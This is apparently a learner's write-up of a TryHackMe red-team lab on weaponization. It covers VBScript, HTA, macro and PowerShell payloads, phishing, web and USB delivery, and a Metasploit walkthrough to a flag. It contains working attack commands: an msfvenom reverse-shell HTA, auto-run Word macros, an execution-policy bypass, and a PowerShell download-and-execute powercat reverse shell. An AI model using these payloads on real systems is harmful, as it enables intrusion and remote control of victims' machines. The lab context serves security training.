Weaponization
Introduction

In the Cyber Kill Chain model, Weaponization is the second stage. In this stage, the attacker generates and develops their own malicious code using deliverable payloads such as **word documents, PDFs etc.**The weaponization stage aims to use the malicious weapon to exploit the target machine and gain initial access.
Most organisations have Windows OS running, which is going to be a likely target.
An organisation’s environmental policy often blocks downloading and executing .exe files to avoid security violations. Therefore, red teamers rely upon building custom payloads sent via various channels such as phishing campaigns, social engineering, browser or software exploitation, USB or web methods.
The following graph is an example of weaponization, where a crafted custom PDF or Microsoft Office document is used to deliver a malicious payload. The custom payload is configured to connect back to the C2 environment of the red team infrastructure.

For more information about red team toolkits, please visit the following: a GitHub repository that has it all, including initial access, payload development, delivery methods, and others.
Most organizations block or monitor the execution of .exe files within their controlled environment. For that reason, red teamers rely on executing payloads using other techniques, such as built-in windows scripting technologies. Therefore, this task focuses on various popular and effective scripting techniques, including:
The Windows Script Host (WSH)
An HTML Application (HTA)
Visual Basic Applications (VBA)
PowerShell (PSH)
Windows Scripting Host - WSH
Windows scripting host has a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, check this out: https://en.wikipedia.org/wiki/VBScript
It is important to not that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for red teamers.
Now, let’s write a simple VBScript code to create a message box that shows the “Welcome to THM” file. Make sure to save the following code into a file, for example, “hello.vbs”.
Dim message
message = "Welcome to THM"
MsgBox message

So, in the first line, we declared the message variable using Dim. Then we store a string value of Welcome to THM in the message variable. In the next line, we use the MsgBox function to show the content of the variable. For more information about the MsgBox function, please visit here: https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/scripting-articles/sfw6660x(v=vs.84)?redirectedfrom=MSDN
Then, we use wscript to run and execute the content of hello.vbs. As a result, a Windows message will pop up with the Welcome to THM message.
Now let’s use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).
Set shell = WScript. CreateObject("Wscript. Shell")
shell. Run("C:\Windows\System32\calc.exe " & WScript. ScriptFullName),0,True
We create an object of the WScript library using CreateObject to call the execution payload. Then, we utilize the Run method to execute the payload. For this task, we will run the Windows calculator calc.exe
To execute the vbs file, we can run it using the wscript as follows:wscript <filename.vbs>

Here is another trick:If VBS files are blacklisted, then we can rename the file to .txt and run it using wscript as follows:
wscript /e:VBScript c:\Users\thm\Desktop\payload.txt

An HTML Application (HTA)
HTA stands for “HTML Application”. It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered.
HTML Applications are also known as HTAs,which are dynamic HTML pages containing JScript and VBScript.
HTML Application (HTA) files are files that contain HTML, JScript, and or VBScript code that can be executed on client system. This can to lead to more dynamic applications or remote code execution on a client or victim.
The LOLBINS (Living-Off-The-Land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.
In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code:

Then serve the payload.hta from a web server.

This can be done from the attacker machine as follows:On the victim machine, visit the malicious link using Edge, at /payload.hta
(

So once we run the file and the payload gets executed, it will invoke cmd.exe
The figure above shows that we have successfully executed the cmd.exe
HTA Reverse Connection
We can create a reverse shell payload as follows:
Msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=443 -f hta-psh -o thm.hta
We use msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.
On the attacking machine, we need to listen to the port 443 using nc. This port needs root privileges to open.
Once the victim visits the malicious URL (in my example: 192.168.0.115:443/htm.hta),and hits run, we get the connection back:

Malicious HTA via Metasploit
There is another way to generate and serve malicious HTA files using the Metasploit framework.
First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally executing exploit to run the module.

Visual Basic for Application (VBA)
VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, Powerpoint, etc.
VBA Programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.
Macros are MS Office Applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes.
One of VBA’s features is accessing the Windows Application Programming Interface (API) and other low-level functionality.
For more information about VBA, visit here:https://en.wikipedia.org/wiki/Visual_Basic_for_Applications
We will discuss the basics of VBA and ways that adversaries use macros to create malicious Microsoft documents.
Firstly, we open Microsoft Word.
We create a blank microsoft document to make our first macro.
We first need to open the Visual Basic Editor by selecting view -> macros.
The Macros window shows how to create our own macro within the document.

Sub THM()
MsgBox ("Welcome to Weaponization Room!")
End Sub
Now, in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as AutoOpen and Document_open. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the THM function.
Sub Document_Open()
THM
End Sub
Sub AutoOpen()
THM
End Sub
Sub THM()
MsgBox ("Welcome to Weaponization Room!")
End Sub
It is important to note that for this macro to work, we will need to save it in a Macro-Enabled Format such as .doc or .docm
Now let’s save the file as Word 97-2003 Template where the macro is enabled.
After reopening our word document, Word will warn us that macros are disabled. We need to enable them. After doing so, it gets automatically executed.

Now, we can edit the word document and create a macro function that executes something like calc.exe or any executable file as proof of concept, as follows:Sub PoC()
Dim payload As String
payload = "calc.exe"
CreateObject("Wscript. Shell"). Run payload,0
End Sub
To explain the code in detail, with Dim payload As String we declare payload variable as a string using Dim keyword.
With payload = “calc.exe” we are specifying the payload name and finally with CreateObject(“WScript. Shell”). Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the AutoOpen() and Document_open() functions too.
Make sure to test your code before saving the document by using the running feature in the editor.
Make sure to create AutoOpen() and Document_open() functions before saving the document.
Once the code works, save the file and try to open it again.
It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.
Powershell - PSH
PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room:
https://tryhackme.com/room/powershell
Red Teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let’s start by creating a straightforward PowerShell script that prints “Welcome to the Weaponization room!” as follows:
Write-Output "Welcome to the Weaponization Room!"
Save this file as thm.ps1
With the Write-Output, we print the message “Welcome to the Weaponization Room!” to the command prompt. Now let’s run it and see the result.

Execution Policy
PowerShell’s execution policy is a security option to protect the system from running malicious scripts. By default, microsoft disables executing PowerShell scripts (.ps1) for security purposes.
The PowerShell execution policy is set to Restricted which means that it permits individual commands to be run but not any scripts.
We can determine the current PowerShell setting of Windows as follows:
Get-ExecutionPolicy
“Restricted”
We can also easily change the PowerShell execution policy by running:
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
Bypass Execution Policy
Microsoft provides ways to disable this restruction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted
This is useful since that lets us run our own PowerShell scripts.
In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows:powershell -ex bypass -File thm.ps1
We will now try getting a reverse shell using one of the tools written in PowerShell, which is powercat.
Then we need to set up a web server on the attacker machine to serve that powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. We will use 8080 this time.
cd powercat
python3 -m http.server 8080
Now, listen on port 1337 using nc to receive the connection back from the victim.
nc -lvp 1337
Now, from the victim machine, we download the payload and execute it using Powershell payloads as follows:
powershell -c “IEX(New-Object System. Net**.WebClient). DownloadString(‘
Now that we have executed the command above, the victim machine downloads the powercat.ps1 payload from our web server then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337.
After a couple of seconds, we should receive a connection callback.

Command and Control (C2)
We already did this one before
Delivery Techniques
Delivery techniques are one of the most important factors for getting initial access. They have to look professional, legitimate, and convincing to the victim in order to follow through with the content.
Email Delivery
This is a common method to use in order to send the payload by sending a phishing email with a link or attachment. For more information, look here: https://attack.mitre.org/techniques/T1566/001/
This method attaches a malicious file that could be the type we mentioned earlier. The goal is to convince the victim to visit a malicious website or download and run the malicious file to gain initial access to the victim’s network or host.
The red teamers should have their own infrastructure for phishing purposes.
Depending on the red team engagement requirement, it requires setting up various records within the email server, including DomainKeys Identified Mail (DKIM), Sender Policy Framework (SPF) and DNS Pointer (PTR) record.
The red teamers could also use third-party email services such as Google Gmail, Outlook, Yahoo and others with good reputation.
Web Delivery
Another method is hosting malicious payloads on a web server controlled by the red teamers. The web server has to follow the security guidelines such as a clean record and reputation of its domain name and TLS (Transport Layer Security) certificate. For more information, visit here:https://attack.mitre.org/techniques/T1189/
This method includes other techniques such as social engineering the victim to visit the malicious file. A URL shortener could be helpful when using this method.
In this method, other techniques can be combined and used. The attacker can take advantage of zero-day exploits such as exploiting vulnerable software like Java or browsers to use them in phishing emails or web delivery techniques to gain access to the victim machine
USB Delivery
This method requires the victim to plug in the malicious USB physically. This method could be effective and useful at conferences or events where the adversary can distribute the USB. For more information about USB delivery, look here: https://attack.mitre.org/techniques/T1091/
Often, organizations establish strong policies such as disabling USB usage within their organization environment for security purposes. While other organizations do indeed allow it in the target environment.
Common USB attacks used to weaponize USB devices include Rubber Ducky and USBHarpoon, charging USB cable, such as O.MG Cable.
Practice Arena (Writeup)

Back from the section which explained how to create a malicious HTA with Metasploit, i went into the msf console and ran “use exploit/windows/misc_hta_server”
I then set the LHOST, LPORt and SRVHOST accordingly. Then i ran “set payload windows/meterpreter/reverse_tcp” and then “exploit”.
This created a reverse TCP handler at the attackbox IP on port 8080, with a hta file at the end of the link.
Inserting this link into the link slot in the page creates a reverse shell which we can access.
Taking a look at “sessions”, we will notice our session active on slot 1.
Interacting with it by “sessions -i 1” will allow us to access a meterpreter shell for command execution. From there, we just need to perform file navigation all the way to /Users/thm/Desktop/flag.txt
The commands went like this:ls
cd ..
ls

Then:
cd Users
ls

then , cd thm
Then cd Desktop

And the flag:

Also: A very useful MSFVenom cheat sheet https://web.archive.org/web/20220607215637/https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/